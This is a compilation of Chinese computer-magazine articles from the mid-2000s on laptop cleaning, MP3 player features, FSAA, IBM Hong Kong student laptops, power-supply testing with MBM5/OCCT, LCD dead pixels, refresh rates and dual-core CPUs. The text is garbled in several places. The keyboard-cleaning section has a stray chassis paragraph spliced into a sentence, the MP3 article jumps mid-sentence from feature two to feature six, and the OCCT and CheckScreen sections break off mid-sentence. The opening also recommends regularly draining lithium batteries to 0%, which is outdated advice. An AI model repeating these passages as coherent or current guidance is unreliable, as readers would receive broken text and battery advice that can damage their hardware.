- 定期为锂电池进行激活处理，就是完全充电和放电，让锂电池恢复最大容量，这样做可以优化电池的性能。具体做法就是用电池供电，一直使用到电池容量为0%（在BIOS和系统中屏蔽掉低电量自动的进入休眠或待机状态）。然后，再接上交流充电器一直充满到100%为止就行了。建议你大约每隔几个月就对电池进行一次深度放电。

### 1. 笔记本的外部清洁

清理笔记本电脑其实并不需要什么非常专业的工具，一些家中经常使用的如：皮老虎、脱脂小棉签等等就足以满足要求了。当然了。如果遇到一些特殊的情况，需要拆开机器进行内部整理，则另当别论。这里笔者就只是针对笔记本电脑的表面清理做一下介绍，而由于笔记本内部构造比较复杂而且拆机可能会丧失保修的危险，所以内部清理不推荐给大家。

### 2. 键盘和鼠标的清洁

可以说键盘是我们平时使用频率最高的，由于每个键帽之间存在着或多或少的缝隙，所以非常容易进入灰尘和脏物，尤其是喜欢在笔记本电脑面前抽烟和吃零食的用户。如果仅仅是一些灰尘，我们可以用“皮老虎”由一个方向向另外一个方向侧吹，这样就可以首先，我们先对笔记本的机身进行清理。机身的清理相对比较简单，主要是外壳和接口。外壳可以用潮湿的软布轻轻地进行擦拭，只要你平时闲暇下来就应该经常擦拭，而经常外出移动的朋友可以每周进行一次清理，让你的笔记本电脑看起来更加有“神”。

把诸如头发或者尘土等细小的脏物吹出来。如果脏物“埋”在非常深，那就只能把键帽一个一个扣下来进行清理了。由于笔记本电脑的键盘设计各有不同，在清理键盘前，非常有必要画一张原键位图，这样来方便以后的安装，请各位读者务必不要忘记。拆开所有的键帽之后，用镊子把里面的脏物夹出来，如果遇到一些顽固的脏物，也可以用脱脂棉签沾少量的酒精慢慢清理，清理完毕后待晾干后把所有的键帽复位即可。

在笔记本电脑里面，鼠标分为指点杆、触摸板和轨迹球鼠标，指点杆和触摸板被广大笔记本厂商所采用。

首先来说说指点杆，指点杆的清理相对比较简单，如果有条件的话可以直接去买个新的即可，花费大约在50元，半年一次。如果没有条件的话也可以用牙刷粘取牙膏来清理。但是切忌不要用酒精，这样会使指点杆上面的绒毛全部脱落。

触摸板算是笔记本电脑中应用最广泛的，具有容易上手使用简单的特点，而且因为触摸板是感应人体信号的，所以采用了全密封设计，并不容易受到污染，一般情况下，最多就是清理一下触摸板的四周边角的灰尘即可。但是长时间的使用触摸板会使得触摸板表面的一层磨砂镀层脱落，如果这个镀层损伤，随着手指的频率摩擦损伤会越来越大，没有了镀层的触摸板会很粘手，使用起来非常的不舒服，基本上没有挽救的余地，因此建议大家平时尽量外接鼠标。

洋洋洒洒几千字，给大家介绍了笔记本电脑从保养到清洁，让大家的“本本”又可以焕发新春了。

（上海 凌）

## 按需索机——MP3播放机实用功能轮番数

近日，笔者的朋友准备购买一台MP3，准备咨询一下我这个所谓“行家”的意见。但不问不要紧，一问才知道我的这位朋友可是说除了购买的欲望和冲动，别的什么都没有了。最后在我句句紧逼的拷问之下，我才大体了解了朋友的需要。其实在数码产品日新月异、新品层出不穷的今天，这种现象可以说是很普遍的，大部分消费者并不清楚自己买回的东西到底具备何种功能，他们的消费观念还和昨天一样，买自行车就是骑的，买电视机就是看的；与此相同，买DV当然就是为了了平时能录个像，买MP3播放机还不就是为了听歌？殊不知在这个讲究实用和各种花哨功能的数码时代，买东西还是要动一下脑筋的。下面，我们就把市面上流行MP3播放机的各种功能来个大扫描，让消费者明确到底什么功能才是自己需要的，在购机时真正能够按需索机。当然MP3和其他主流音频文件的播放功能是必备的，在此就不再赘述了。

### 实用功能一：数据存储

推荐度：★★★★★
适用对象：所有消费者

MP3播放机本身就是一种以半导体为存储介质的便携式音乐播放机，它的数据存储原理和我们平常用的闪盘是相同的（硬盘式MP3播放机除外），因此MP3具备基本的数据存储功能便显得天经地义。现在市面上能见到的MP3播放机可以说都具有了这一功能，不同之处在于产品的易用度如何，是否需要驱动支持，是否支持多层级文件夹以及是否数据加密等特色功能等。这一功能的具体情况消费者可以参考所购产品的具体说明，切记实用为本，大多数情况下，能够满足我们移动存储的基本需要就可以了。

### 实用功能二：数码录音

推荐度：★★★★
适用对象：有会议记录需要的记者、学生

前几年数码录音笔可以说着实火了一把，行，这些功能也从原来不痛不痒的点缀和勉强实现的卖点变成了 MP3 播放机真正的特色闪光点。但值得我们注意的是，目前具备这些功能的 MP3 播放机都还属于价格不菲的高端机型，除非你有需要，或者你是一个疯狂追求娱乐性的发烧友，并且你不太在意价钱上的问题，否则我们不推荐大家盲目求新。毕竟功能越多、屏幕越大，MP3 播放机的功耗也就越大，大家谁都不希望自己的 MP3 播放机玩游戏把电耗光，想听歌时反而一筹莫展吧？

### 实用功能六：双耳塞情侣接口

推荐度：★★★★
适用对象：形影不离的热恋情侣

顾名思义，双耳塞插口功能就是 MP3 播放机的输出系统提供了两个输出端口，一个为耳塞插口，一个为 Lineout 接口，Lineout 接口可同时连接音箱设备或者耳塞，如果使用耳塞，就实现了浪漫迷人的情侣双耳塞功能了。这种设计曾经出现在 SONY 的 MD-E75 当中，并且也使 E75 成为 SONY 的一代经典 MD 机，如今能够运用到 MP3 播放机当中，实在非常难能可贵，这也体现了广大 MP3 播放机厂商以用户为本的设计理念。这样的一款特色 MP3 播放机，对情侣用户来说可以说是再适合不过了。抛开省下再购买一台 MP3 播放机的花费不说，单是两人相拥而坐，依偎在一起共听一首浪漫爱情歌曲的那份甜蜜，也可以说是大有所值了。

小提示
其实通过购买一个简单的音频输出一转二插头，也可以实现这种功能，这样无疑可以节省一部分资金。但与小巧的 MP3 播放机难以匹配的硕大插头看上去实在有点不雅，因此是否购买有这种功能的 MP3 播放机也是仁者见仁，智者见智了。

### 实用功能七：蓝牙功能

推荐度：★★
适用对象：无线技术发烧友

在手机、PDA 等其他数码设备，蓝牙现在可以说已经是比较常见的技术，但要数到 MP3 播放机，还是比较少。蓝牙实质上是一种由索尼爱立信开发的用于替代便携或固定电子设备上使用的电缆或连线的短距离无线连接技术，根本出发点就是要摆脱线缆连接带来的种种不便，也就是说，无论你是在户内户外，只要在电子设备间安装蓝牙装置芯片，无需任何专用线缆，就可以实现无线连接，非常方便。由此搭载了蓝牙芯片的 MP3 播放机，在配合拥有蓝牙功能的手机或者其他设备使用时，就可以轻松实现 MP3 播放机接听来电，实现来电和音乐自由切换。在蓝牙手机并不十分普及的今天，这种功能的 MP3 播放机可以说只是让我们看到了一种功能实现上的可能性，真正要推广这种 MP3 播放机，可以说还有很长的路要走。

### 实用功能八：可拍照 MP3 播放机

推荐度：★
适用对象：整合技术发烧友

带有拍照功能的 MP3 播放机的出现，可以看作是手机拍照风潮的延伸。手机进入彩屏时代，一定程度上使 MP3 播放机加快了彩屏 MP3 播放机的普及，而手机摄影时代的到来，也给 MP3 播放机点示了一条比较可行的道路。但我们目前仍把这种功能仅看作是一种可行性的展示，这只是厂商用来证明自己技术实力和创意水准的一种概念产品，除非你有特殊需要，否则并不推荐大家购买。

另外要说明的是，诸如七彩背光显示、124 色多彩背光显示和 MP3 播放机迷你音响组合等功能，本文并未提及，它们可以看作是特色功能，但更多还是一种外观上的设计。最后希望大家擦亮眼睛，在明确了自己所需 MP3 播放机的功能后，再从外观设计等方面去挑选，真正买到一款属于自己的个性 MP3 播放机。
（山东 岳松）

## FSAA 快速入门

### 入门篇：什么是 FSAA

FSAA，全称是 Full Screen Antialiasing，即全屏幕抗锯齿技术，目的是消除 3D 显示渲染中不同物体交界处难看的锯齿。在 3D 绘图中，锯齿产生的根本原因在最后显示输出的显示点阵并不能表现出原始显示信息的精度。如图 1，这里的渲染结果本应该是直线，但在最终显示时两块图像边缘常见的呈锯齿状的交界处。如果我们把锯齿放大到每个像素，那么就应该是图 2 的情况，两个色块的交界处泾渭分明，没有任何过渡，锯齿就这样出现了。而图 3 则是图 1 经过 FSAA 处理的结果，两块图像的边缘看起来已经成为了一条直线，没有锯齿。那么我们把它放大，就是图 4 的样子。两块图像的交界处的像素颜色相互融合，使锯齿看起来没有了。因此，将图像交界处做过渡化处理，让锯齿不再那么明显，这就是全屏边缘抗锯齿的实质。




### 进阶篇：实现 FSAA 的方式

现在显卡厂商实现 FSAA 功能，主要有两种方式。第一种叫做 Ordered Grid Super Sampling (OGSS，顺序栅格超级采样)，即以比实际输出分辨率更高的分辨率来渲染 3D 画面，比如 1600 x 1200，然后，再按照比例缩放回来显示与屏幕上，比如缩到 800 x 600。这样最终输出的每个像素都是原来 4 个像素的综合平均，图像边缘的锯齿也就不明显了。读者可以自行绘制一张边缘锯齿明显的图片，然后缩小画面，看锯齿是否明显减少了。但这样的抗锯齿方式有很大的局限性，当要求抗锯齿效果很高时，显示核心必须渲染分辨率相当高的画面，比如 3200 x 2400，这对现在的顶级显卡也是相当难以实现的。因此在对抗锯齿效果要求更高的场合，常用的就是下一种抗锯齿实现方式。

Rotated Grid Super Sampling (RGSS，旋转栅格超级采样) 是高质量抗锯齿常用的实现方式。要了解 RGSS，先了解一点显示核心最后输出 3D 图像的处理过程。假设图像最后输出分辨率为 1024 x 768，那么这个图像的每个像素点所显示的内容需要由 3D 模型中最后映射到这个像素点的部分来决定，也就是说，我们看到的一个像素点，在 3D 模型中并不是一个点，而是相当多地点汇聚起来的。而没有抗锯齿处理时，这个最后显示的像素点的显示信息，一般就直接由处在这个像素点正中的 3D 渲染出来的点的信息决定，就是说一个点代表了这个像素范围内的所有其他点，这就叫做“采样”。而 RGSS 则是在这个像素点范围内多处采集 3D 渲染点的信息，然后进行平均化处理，让这个像素点的显示内容更接近这个点范围内所有 3D 渲染点的集合。见图 5，方块代表最终显示的像素点，内部的小点代表 3D 模型中的采样点，采样点数目越多代表采样精度越高，4 个采样点就用 4x 表示，8x 表示 8 个采样点。
无论是 OGSS 还是 RGSS 都属于显示卡的内部处理方式，我们只需要初步了解就可以了。我们在这里需要知道的是，OGSS 和 RGSS 都属于显示核心需要重复繁琐进行的工作，会大量消耗显示处理资源，这也就是开启抗锯齿功能后显示处理速度大大下降的原因。



### 应用篇：开启 FSAA

在显卡厂商的驱动设置中都提供了开启 FSAA 功能的选项。使用 nVIDIA 显卡并安装了最新驱动程序，从“显示属性→高级→ GeForce(显卡型号)” 进入 nVIDIA 高级菜单，点击“性能和显示质量”在右边窗口中去掉“3D 平滑处理设置”项目下“应用程序控制的”勾选，然后就能强制设置 nVIDIA 显卡的 FSAA 设定。nVIDIA 显卡的 FSAA 设定中有个 2xQ 选项，这是 nVIDIA 显卡的一种优化 FSAA，用 2x 处理 FSAA 的性能损失的代价基本达到了 4x FSAA 的画面效果(见图 6)。使用的 ATi 显卡，同样也进入显示属性的高级菜单，Direct3D 选项卡中将“消除混淆”的“应用程序首选”的钩选去掉，就能自定义 D3D 下 FSAA 的级别(见图 7)，由于 ATi 的驱动中 D3D 和 OpenGL 是分开设定，因此要开启 OpenGL 的 FSAA 设定还需要在 OpenGL 的选项卡中做同样设定。





最后，现在不少游戏也已经自带了开启 FSAA 的选项，总的来说，显卡自带的 FSAA 是执行效率最高的，游戏中的 FSAA 则是兼容性最好的，而显卡执行 FSAA 的优先级则是显示驱动设置优先。
（ Pisces ）

## IBM 学生机与水货机试比低

前段时间被炒得火热的IBM学生机，由于价格低廉，甚至比水货机还便宜，相信很多人都了解IBM学生机方方面面的问题。例如：什么是IBM学生机？水货IBM学生机在国内能得到蓝色快车的保修吗？作为一个消费者选择水货IBM香港学生笔记本的利弊在哪里？

### 何为IBM学生机

什么是IBM学生机？顾名思义就是IBM针对大学生特别推出的优惠机型，IBM学生机在整体产品品质上没有任何的改动和精简，完全与现在市场上流通的行货相同，只是牺牲掉了系统恢复这个功能，但是相比与行货笔记本的巨大价差，这个瑕疵可以忽略不记。IBM学生机只能由老师和学生持有效证件才能购买，并且每个学生证只能购买一台机器。

据了解，每年8月底至9月末，IBM都会向美国、德国、中国香港、新加坡等地的大学生提供特惠笔记本电脑，同样配置的学生机与普通机价差比较大，按照中国内地的报价，价差从4000至8000元人民币不等。从2004年香港科技大学的IBM学生机报价单中(见图)，大家可以看到其中的X40机型售价仅9228港币(Price即为学生价，Retail Price是香港零售价)，折合人民币也不足万元，而在内地同等配置的水货机型至少在1万6千元以上，而行货机型要2万左右。

此前，IBM曾向中国留学生推出过两款特惠机型，原价为16688元人民币的IBM X31 2672 39C留学生价为15000元人民币，原价24888元人民币的T42 2373 2WC，留学生价为19000元人民币。

IBM学生机并不是IBM主动的市场策略，而是当地大学与IBM公司协商的结果。出于教育的需要，香港一些大学要求每个大学生必须配备电脑，在这种背景下，香港一些大学与IBM公司协商，由大学提供补贴IBM公司推出面向大学生的特惠机型，只要有内地大学主动来和IBM洽谈这种业务，IBM公司也会在内地实行类似活动。

| 项目 | 型号1 | 型号2 | 型号3 | 型号4 | 型号5 | 型号6 | 型号7 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| Processor | Celeron M 330 1.4G | Pentium M 715 1.5G | Pentium M 1.5G | Pentium M 1.7G LV | Pentium M 715 1.5G | Pentium M 725 1.6G | Pentium M 735 1.7G |
| L2 Cache | 512KB | 2MB | 1MB | 2MB | 2MB | 2MB | 2MB |
| DDR Memory | 256MB (333MHz) | 256MB (333MHz) | 256MB (333MHz) | 256MB (333MHz) | 256MB (333MHz) | 256MB (333MHz) | 256MB (333MHz) |
| Hard Disk | 30GB (4200rpm) | 40GB (4200rpm) | 40GB (4200rpm) | 40GB (4200rpm) | 40GB (4200rpm) | 60GB (5400rpm) | 60GB (7200rpm) |
| Optical Drive | CD-ROM | CDRW/DVD Combo | | | CDRW/DVD Combo | CDRW/DVD Combo | CDRW/DVD Combo |
| Display | 14.1" TFT (XGA) | 14.1" TFT (XGA) | 12.1" TFT (XGA) | 12.1" TFT (XGA) | 14.1" TFT (XGA) | 14.1" TFT (SXGA+) | 15.1" TFT (SXGA+) |
| Wireless (54M) | | 802.11b/g | 802.11b/g | 802.11b/g | 802.11b/g | 802.11b/g | 802.11b/g |
| OS (Chinese) | XP Home | XP Pro | XP Pro | XP Pro | XP Pro | XP Pro | XP Pro |
| Battery Life | 3.5 hrs | 4.7 hrs | 5.5-6 hrs | 7.5 hrs | 4.5-5 hrs | 4.7 hrs | 4.7 hrs |
| Weight (Kgs) | 5.9 | 5.8(6.0) | 3.6 | 3.1 | 4.5(4.9) | 4.5(4.9) | 5.3(5.7) |
| International Warranty | 1-year carry-in | 3-year carry-in | 3-year carry-in | 3-year carry-in | 3-year carry-in | 3-year carry-in | 3-year carry-in |
| Retail Price | HK$8,520 | HK$13,480 | HK$12,180 | HK$14,890 | HK$15,990 | HK$18,990 | HK$21,380 |
| Price | $3,988 | $5,320 | $7,852 | $9,228 | $9,876 | $11,442 | $12,392 |
| 12-month Installment | $349 x 12 | $535 x 12 | $655 x 12 | $769 x 12 | $823 x 12 | $954 x 12 | $1,033 x 12 |

而在国内，香港的IBM学生机更加受到大家的关注。IBM香港学生机有以下几个特点：首先就是由于超低价产品的登场，如果不进行非常严格的监管控制，势必会对正当的行货渠道造成影响，当然这个影响打击的范围是很大的，不但影响香港本地行货，如此低价产品如果流入中国内地市场，也会对国内的行货渠道造成打击。所以IBM（香港）方面对香港学生机的管理非常严格，不但委托信誉良好的经销商负责此事，IBM（香港）更特别调派观察督导人员全程监控，购买者只有持有有效证件才能购买，学生亲自购买核对身份，并且对学生的姓名和ID编号进行记录，要求每个学生证只能购买一台机器。其次，IBM香港学生机也并不是香港所有的大学都享有的特权，主要目标市场为香港大学、香港科技大学、香港理工大学，这三所最有影响的大学。

由于IBM在中国的价格策略的关系，在香港购买IBM笔记本电脑会比在内地购买的价格便宜比较多，这也就是国内IBM水货的成因。特别从2002年起，IBM（香港）开始针对香港大学生推出优惠活动，每年的这个时候水货商都千方百计打IBM香港学生机的主意，因为相比从香港行货市场过来的IBM笔记本电脑，IBM水货香港学生机成本更低。

### 你需要IBM学生机吗

这里要特别提醒大家一点：香港的IBM学生机在市场面对香港大学生时，它是正规的行货，一旦它进入内地市场，那么它的身份就发生了本质的变化，它是水货产品。

如果你在内地购买水货IBM香港学生机，那么该如何保修呢？据一位经销商说，通过蓝色快车保修或以返回香港保修都可以，而且他们可以开具受IBM（香港）委托进行优惠活动的那家经销商的发票才可以。

现在水货IBM学生机的保修要求消费者出示香港学生笔记本指定经销商的发票，发票上有学生的名字和ID号码。虽然在笔者与IBM IWS部门以及蓝色快车沟通时，他们都表示现在还没有收到让送修者出示尤其是学生证来核对身份的通知。但是大家要知道，现在没有并不意味着明天不会有。

这也就是说，一旦IBM IWS或蓝快对于香港学生笔记本的保修有什么特别的要求，比如核对学生证，那么将彻底丧失保修。如果真的是那样，消费者惟有寻求水货商的返回香港维修了，但是消费者肯定也要多承担额外的费用了，而且维修周期也会长些。

（本刊记者 王寒晖）

## OCCT：为你的电源把把脉

随着CPU和显卡的功耗不断增加，电源在电脑中的地位也越来越受到重视。如果电源的品质不佳，很容易让你的电脑出现无故重启等故障。要想了解自己所用的电源的品质，熟悉电子的读者相信会用万用表检测电源，但很多读者对电子是一知半解，其实大家可以借助Motherboard Monitor（以下简称MBM5）和OCCT软件，让你对电源的健康状态有一个全面的了解。

### 安装与设置MBM5

单靠OCCT是无法完成对电源的检测的，它需要MBM5的配合。OCCT就是通过与MBM5软件共同协作才能为用户提供一份完美的电源质量报告。提到MBM5，大家应该感到很熟悉了，这款软件早在两年前就成了评测硬件性能的首选，它的主要功能在于探测主板CPU温度和电压，并可检测风扇的转速、硬盘性能等。特别是对CPU、主板的电压和温度检测较好。

Motherboard Monitor小档案
最新版本：5.3.7.0
适用平台：Windows 9X/Me/2000/XP
授权方式：共享软件 软件大小：1252KB
下载地址：http://tj-http.skycn.net:8081/down/MBM5370.exe

### 1. 更新配置文件

下载并安装MBM5，在安装过程复制文件结束时，将出现“MBM5 Configuration Wizard”界面，单击“Next”按钮。如果你的主板比较新，那么MBM5可能不一定能够支持，因此我们需要首先升级配置文件。点击图1中的“Update”按钮，MBM5会自动链接到站点服务器读取更新信息，接下来我们只需要在图2窗口中选择主板厂商、主板型号即可在线更新最新版本的配置文件。





### 2. 正确设置电压适配器

如果MBM5中没有你的主板型号，那么双击系统托盘中的MBM5图标，打开MBM5主界面，切换到“Voltages(电压)”选项，在“Voltages Configuration(电压传感器)”下拉列表框中选择正确的型号(见图3)。如果下拉菜单中有自己所使用的主板名称就可以直接选择，否则需要查看主板说明书进行检查，点击“Apply(应用)”按钮。



### 小提示

如果你不太清楚自己主板所使用的电压适配器，可以运行EVEREST(下载地址http://tj-http.skycn.net:8081/down/Everest_Pro_1.51.195_SC.exe)进行检测，分别选择“电脑→感应器”，在右侧窗格中可以查看感应器的类型(见图4)。

### 读懂OCCT测试图

OCCT是一款用来测试电脑系统运行稳定性的软件，通过MBM5所测出的数据，自动模拟电脑满负载运行的状态，让电脑连续30分钟满负载运行，最后得出相应的电压波动图。

## OCCT小档案

- 最新版本:0.91
- 适用平台:Windows 9X/Me/2000/XP
- 授权方式:共享软件
- 软件大小:3.26MB
- 下载地址:http://www.ocbase.com/OpenBeta/OCCTv0.91.exe

## 1. 安装与设置OCCT

下载并安装OCCT，首先确认运行MBM5，然后再运行OCCT。OCCT运行时会自动关闭MBM5，点击右下角的“Option”选项进入设置窗口，在这里可以对测试电压的负载进行设置，你可以选择“Lowest(最低)”、“Highest(最高)”等五个不同的等级，还可以设置使用内存的大小、CPU最大承受温度、输出图像的格式等(见图5)。如果没有特殊情况的话，保持默认值即可。设置完毕后，点击“Go Back”返回到主界面。

## 2. 测试电源

返回主界面后，点击“Test”按钮即可对电源进行测试了。测试过程将进行30分钟，主界面也会同时出现电源各路输出电压的波动情况。由于测试时OCCT将占用大量的系统资源，因此此时最好不要进行其他操作(屏幕保护程序也要先取消)，否则将导致测试失败。我们可以通过OCCT的监测面板上看到电源各路输出电压的波动情况。

测试完毕后，打开OCCT安装目录下的“Graphs”文件夹，里面共有六张测试图表，它们把最终的测试结果以分析图的形式呈现在用户眼前。其中，与电源性能密切相关的测试是“3.3V during OCCT's retail test(+3.3V电压波动测试)”(见图6)、“5V during OCCT's retail test(+5V电压波动测试)”(见图7)和“12V during OCCT's retail test(+12V电压波动测试)”(见图8)。

为了保证输出电压的稳定，ATX电源内部设计了一套自动补偿电路，能够根据输出电压下降的幅度自动进行补偿来抵消输出电压的下降，但问题是大多数ATX电源并没有为每一路输出电压提供单独的稳压电路，而是同时补偿，这样就容易出现一个特殊的现象，例如+3.3V、+5V、+12V中的+5V因为负载太大而导致输出电压开始下降时，电源会同时增加这三路的输出电压，并不会对+5V进行控制，其结果必然导致+3.3V、+12V的输出电压过度补偿而超过额定的电压，可能给硬件设备带来一定的影响。有鉴于此，ATX详细制定了各种输出电压的波动范围，电源输出的正电压波动范围在-5%~+5%之内，负电压波动范围在-10%~+10%之间，都是允许的。

这些波动的曲线图究竟能说明电源处于什么状态呢？这里以+12V电压波动图为例(+3.3V与+5V的电压波动图同理)，在测试时

## 一分钟掀出液晶显示器的坏点

## Monitors Matter CheckScreen小档案

- 最新版本:1.2
- 适用平台:Windows 9X/Me/2000/XP
- 授权方式:共享软件
- 软件大小:836KB
- 下载地址:http://cdfc-http.downloadsky.com:8080/down/checkscreen12.zip

## 坏点=亮点+暗点+色点

简单地说，坏点就是不透光的点，或者只能透过显示特定色彩的像素点。显示器厂商一般不会按照ISO 13406-2的标准规定坏点数量，一般行业内的指标是不能超过3个坏点。不过现在液晶厂商都争先恐后推出“无坏点”产品的推广，所以用户现在购买液晶还是可以比较放心。不过购买的时候也一定要先检测一下，如果发现有坏点，可以要求经销商调换。

那么，我们应当如何去辨别一台液晶显示器的好坏呢？今天，笔者就为大家介绍通过Monitors Matter CheckScreen来检测液晶显示器的坏点。购买显示器时，将此软件拷入闪存盘或软盘随身带着，给你选购显示器作为一个参考的佐证。

运行此软件后，切换到“LCD Display”选项卡(见图1)。当中的“Pixel Check”选项是专门用来检查坏点的，因为有的坏点具备单一颜色，也就是色点，所以测试一共提供了五种不同的颜色，让所有可能存在的色点无处遁形。为了让大家测试的时候更仔细，软件是用50×50像素的小方块来测试，用

### 小资料 ISO 13406-2标准

ISO(International Standards Organization,国际标准化组织)13406-2标准是所有显示器制造商参考、依据的一系列有关液晶显示器图像品质的规范。这个规范包括了亮度、对比、反射、亮度与色彩的一致性、闪烁、特性分析与坏点。这个标准也定义了4个等级的品质。其中，Class 1是最高级，不允许缺损像素的存在；Class 2规定每百万像素允许2个亮点、2个暗点和5个红、绿或蓝色亮点。以15英寸液晶显示器为例参照Class 2标准，原始分辨率为1024×768个像素，总共786432个像素。容许亮点=2×786432/1000000=1.57。容许暗点=2×786432/1000000=1.57。容许的红、绿或蓝色亮点=5×786432/1000000=3.93。如果参考这个标准，2个亮点就是大于容许的1.57。ISO 13406-2规范下的15英寸显示器不允许超过：总共5个有问题的像素，因此最多是1个亮点、1个暗点与3个红、绿或蓝色亮点。此外，总和的规定要求在5×5像素面积内，不得存在超过2个有问题的坏点。

我们知道由于生产工艺的原因，不是所有生产出来的液晶显示屏都是完好的，有大约15%~20%的产品会存在诸如坏点、亮点不均匀等问题，那么这样的液晶面板就会被列入B级产品里。而各个厂商的产品标准又各不相同，韩国厂商规定存在三个以下坏点的面板为A级面板，日本厂商规定为五个坏点以下的面板为A级面板，我国台湾厂商规定坏点数八个以下的就属于A级面板。不符合以上标准的就被各个厂商列为B级或C级面板（C级自然是比B级还差的面板了）。一些大厂在这方面的规定更是花样繁多，比如没有坏点的被列为AA级等等。这种不同的标准就使得消费者更加难以辨别一台液晶显示器是否属于A级产品。

## 刷新率的三重外壳

为什么看DVD、VCD以及很多视频文件时，只要达到每秒25帧的画面刷新速率，我们就会觉得画面流畅，但游戏如果只有每秒25帧的画面我们就会觉得很不流畅？为什么显示器设置中的刷新率选项中，CRT显示器要设置到85Hz我们才不会觉得屏幕闪烁，而LCD显示器设置到60Hz也没有闪烁？为什么游戏同样是每秒60帧，CRT显示的画面就很流畅，而不少LCD显示的画面就会有拖尾的感觉？这些问题都要从刷新率上找答案。

要说刷新率，先从显示卡和显示器的工作原理谈起。显示卡向显示器发送一幅图像信息后，显示器经过处理，显示到屏幕上。当显示的画面不断更新，更新速度达到每秒25帧时，因为人眼的视觉残留因素，人就会看到连续的画面。而在游戏处理中，电脑每渲染一帧画面，就需要处理从上一帧画面到本帧画面之间所有的来自我们灵巧双手的输入指令。理想状态下，我们每进行一次输入指令，画面就应该有一次相应的回馈，但每秒25帧的画面并不能达到这样的要求，我们也许觉得在一秒中内并不会敲击多少次键盘或者鼠标，但在用鼠标定位时，现在的USB鼠标125Hz的刷新率表示鼠标能够在1秒内提供125次位置变化信息，而人灵巧的手也完全能够把这种精确的移动表现出来，但每秒25帧的画面却不能表现出这样精确的指令，于是手所输入的指令与眼睛所反馈到的画面出现了效果的差别，我们就会觉得显示画面不够流畅。而要欺骗过我们的手和大脑，显示画面需要持续达到每秒60帧，这时我们才会觉得游戏画面相当流畅，而这个显示速度当然越高越好。

那么为什么CRT显示器需要设置为85Hz刷新率才不会有屏幕闪烁，而LCD没有这个问题呢？这要从不同显示器的显示方式来解释，对CRT显示器来说，要在屏幕上绘制成一帧图像，需要CRT显像管的电子枪发射的电子，经过垂直和水平的偏转线圈控制偏转角度，让电子束经过一横排一横排的扫描方式，击打屏幕上的荧光粉，使屏幕发光，最后显示图像（见图1）。荧光粉只有在被电子轰击后的短暂时间内才会发光，然后很快暗淡下来，这个时间在1毫秒（1/1000秒）以下。我们可以想象，如果显示卡一秒钟只向CRT显示器传送一帧图像，那么当CRT显像管的电子枪轰击到后面的屏幕时，前面的荧光粉早已经熄灭。而要保持让荧光持续发光，就需要电子枪提高扫描频率，在1秒钟内多次轰击屏幕的每处荧光粉，这就要求显示卡每秒钟多次向显示器传输图像信息，这就是显示器刷新率。按照理论，要让荧光粉持续发光，每秒至少要让画面刷新1000次，但实际上，人眼在受到光刺激后会有视觉残留，只要在上一幅图像产生的视觉残留消失之前再次显示出图像，那么人看到的就是无闪烁的图像。经过实践，在CRT显示器刷新率设置为85Hz时（1秒发送85幅图像信息），几乎所有人都不会看到CRT显示器的闪烁了。

LCD显示器在刷新率上则与CRT完全不同。LCD是通过调节每个液晶单元的透光性，让藏在LCD显示面板后面的灯管的光透出来，从而形成五彩缤纷的图像（如图2）。LCD的灯管的光是持续存在的，因此也就不存在闪烁的问题，所以即使显示卡每秒只给LCD显示器一幅图像信息，LCD也不会出现闪烁感。虽然与CRT显示器相对的LCD显示器不会闪烁，但另一方面，液晶材料的特性带来了另一个刷新率的问题。

前面已经了解到两种显示器显示画面的方式。那么，当显卡向显示器发送不同的画面时，对CRT显示器而言，只是电子枪高速绘制一帧新的图像，绘制上一帧画面发亮的荧光粉已经熄灭，没有残留信息。但对LCD显示器而言，却需要按照新的画面的信息，在正在显示画面的基础上，重新调整每个液晶单元的透光性。调整液晶单元所需要的时间就比荧光粉熄灭长多了，这就是LCD的响应时间。当画面更新速度超过了LCD能够响应的速度，那么每个液晶单元就会遇到上次显示状态还没有清除，又要进行新一次调整，于是新的画面中还残留着上个画面的信息，拖影就这样产生了。这种情况经常出现在响应时间25ms以上的LCD中，这种液晶面板只能每秒显示40帧画面（1000ms/25ms=40），而响应时间16ms以下的LCD显示器的液晶单元状态改变速度已经跟上了显示画面的刷新速度，能够每秒显示60帧以上的画面，这个问题也不再明显了。

(AFan)

## 双核心处理器决战新时代

Pentium 4止步于4GHz，CPU频率不能随心所欲提高，明天，我们的电脑又该如何提升性能？Intel与AMD都说，双核心处理器时代来临了！

## 双核心，姗姗来迟走向PC

什么是双核心处理器？双核心处理器，或者未来多核心处理器，就是将两个或者多个完整功能的处理器核心集成到一块芯片或者一块CPU基板上。从技术上说，双核心处理器并不新鲜，在2003年，IBM就展示了一块基板上有8片核心的Power 5处理器（见图1）。而在PC方面，无论是Intel还是AMD，多处理器并行运行的SMP（Symmetric Multi Processor，对称多路处理器）技术也相当成熟，AMD和Intel需要做的就是把两块或者多块CPU的核心做到一块CPU上。

而自去年AMD首先泄露出自己的双核心CPU样品后，在前不久举办的Intel开发者论坛上，Intel也展示了自己近期将要推出的全线双核心处理器样品（见图2）。

这几块处理器的公开信息见表1。

与Intel复杂的产品线相比，产品线相对简单的AMD双核心处理器计划则相对简单，代号Egypt、Italy和Denmark的双核心或多核心处理器定位于服务器市场，代号Toledo的双核心处理器定位在桌面市场，所有核心都基于AMD64技术，采用90纳米制造工艺，并计划于今年年底正式推出。

## 双剑合壁，威力几何

从理论上说，双核心处理器能够提供双倍的处理能力，而实际运行会是什么结果呢？我们首先从与双核心看起来有些关系的超线程（Hyper-Threading）说起，超线程是Intel在Pentium 4处理器中加入的一项技术，能将一块Pentium 4处理器模拟为两块CPU，操作系统也会将这样的CPU识别为两块独立的处理器。在这样的情况下，系统以及软件向模拟出的两块CPU中的一块发出指令后，同时还误以为另一块模拟CPU还是空闲的，因此也会将新的指令发给第二块模拟CPU。这样在一定程度上就提高了CPU与其他设备交换数据的能力，而在CPU内部处理时，由于第一模拟CPU已经收到了指令，占用了自己需要的资源，那么第二模拟CPU收到的指令只能在第一模拟CPU没有占用的资源中运行，如果必须使用第一模拟CPU占用的资源，就必须等待第一模拟CPU完成相关指令才行。这实际相当于一个U型管，虽然看起来有两个管口，但当吸取其中一个管口的资源时，另一个管口的资源也同样降低，CPU的外部表现虽然变了，内部还是只有一个CPU。与超线程相比，双核心CPU则相当于两个放在一起的试管，抽取其中一个试管管口的资源并不会影响另一个试管里面的资源。因此，双核心CPU的双倍处理能力是能否实际提升系统性能的关键，就是能否合理分配两个核心获得的资源，让两个核心是否都能获得足够需要处理的数据。

